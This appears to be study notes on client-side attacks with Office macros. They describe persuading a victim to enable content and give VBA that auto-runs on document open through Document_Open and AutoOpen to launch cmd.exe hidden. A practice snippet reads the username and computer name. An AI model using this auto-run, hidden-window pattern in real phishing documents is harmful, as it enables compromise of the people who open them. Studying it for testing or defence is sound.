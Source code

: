 Các báo cáo VA Nessus đã làm về cái này rồi. Viết các hàm macro để thêm màu cho các MỨC ĐỘ. Vào phần "VIEW" -> chọn Macro. 

Purpose: Convince the victim to execute malicious macro code when clicking "Enable Content". Use the two available methods `Document_Open()` and `AutoOpen()`. Save the document file in Macro-Enabled format such as **.doc or .docm**. **.docx** format will not save macros

The key in client-side attacks is to convince the victim to open the document and enable macros. 

![[Pasted image 20230906113610.png]]
![[Pasted image 20230906113625.png]]

To summarize this section, write the Macro code to launch `cmd.exe`

```vb
' Document_Open + AutoOpen: automatically run when the document is opened
Sub Document_Open()
    myMacro
End Sub

Sub AutoOpen()
    myMacro
End Sub

Sub myMacro()
    Dim str As String
    str = "C:\Windows\System32\cmd.exe"
	
	' method 1
    Shell str, vbHide
	
	' method 2
	CreateObject("Wscript.Shell").Run str, 0
End Sub
```

**Method 1**: via function VBA Shell, take two arguments. The first is the full path name of the application, the second is WindowStyle, takes the value vbHide or equivalent number is 0 -> will hide the program when run

**Method 2**: Using the Windows Script Host (WSH) to launch the shell. To do this, calling the `CreateObject` method to create the WSH shell, from here we can call the `Run` method.

#### Practice

Use the Environ$ function to print username and computer name

```vb
Sub PrintUserNameAndComputerName()
    Dim i As Integer
    Dim username As String
    Dim computername As String
    
    ' Get the username and computer name
    username = Environ$("USERNAME")
    computername = Environ$("COMPUTERNAME")
    
    ' Loop to print 5 times
    For i = 1 To 5
        MsgBox "Username: " & username & vbCrLf & "Computer Name: " & computername
    Next i
End Sub
```
